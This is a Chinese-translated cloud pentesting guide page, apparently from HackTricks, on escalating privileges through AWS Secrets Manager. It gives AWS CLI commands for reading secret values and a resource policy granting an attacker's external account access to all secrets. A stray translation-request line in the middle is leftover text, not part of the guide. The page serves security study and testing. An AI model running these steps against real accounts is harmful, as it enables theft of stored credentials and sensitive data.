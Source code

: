# AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

有关 secrets manager 的更多信息，请查看：

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

拥有此权限的攻击者可以在 AWS **Secretsmanager** 中获取 **secret 内已保存的值**。
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**潜在影响：** 访问 AWS secrets manager service 中的高度敏感数据。

> [!WARNING]
> 请注意，即使具有 `secretsmanager:BatchGetSecretValue` 权限，攻击者仍然需要 `secretsmanager:GetSecretValue` 才能检索这些敏感的 secret。

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

在具备上述权限的情况下，可以**将访问权限授予其他主体/账户（甚至外部）**来访问该 **secret**。注意，为了**读取使用 KMS key 加密的 secrets**，用户还需要对 **KMS key** 具有访问权限（更多信息见 [KMS Enum page](../aws-services/aws-kms-enum.md)）。
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
请粘贴 policy.json 的内容，我会把其中可翻译的英文说明翻译成中文（保留代码、文件名、路径和标签不翻译）。
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
